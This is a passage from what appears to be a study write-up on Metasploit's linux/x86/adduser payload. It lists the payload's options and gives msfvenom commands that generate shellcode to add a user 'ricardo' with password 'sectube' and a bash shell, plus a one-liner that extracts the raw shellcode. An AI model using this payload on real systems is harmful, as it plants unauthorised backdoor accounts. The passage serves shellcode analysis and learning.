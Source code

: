 ![Screenshot](images/adduser/2.png)


There are 3 basic options:

- PASS: The password for this user (Required). Default: metasploit
- SHELL: The shell for this user. Default: /bin/sh
- USER: The username to create (Required). Default: metasploit

For this study we will use the three basic options:

```bash
msfvenom -p linux/x86/adduser USER=ricardo PASS=sectube SHELL=/bin/bash --platform=Linux -a x86 -f c
```


### One-liner for getting shellcode 

The fastest way to get the shellcode in my case was using two pipes, one with 'sed' and a second one with 'paste' command:

```bash
msfvenom -p linux/x86/adduser --platform=Linux -a x86 -f c USER=ricardo PASS=sectube SHELL=/bin/bash | grep '"' | sed -e 's/\"//g' | paste -sd "" - | tr ";" " "
```
